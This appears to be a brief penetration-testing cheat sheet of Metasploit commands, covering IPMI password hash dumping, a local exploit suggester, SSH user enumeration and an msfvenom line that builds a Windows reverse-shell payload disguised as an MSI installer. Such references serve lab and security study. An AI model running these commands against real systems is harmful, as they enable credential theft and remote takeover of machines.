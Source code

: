 # MSFconsole
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
# MSFvenom
## Generate Payload
- msi
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```
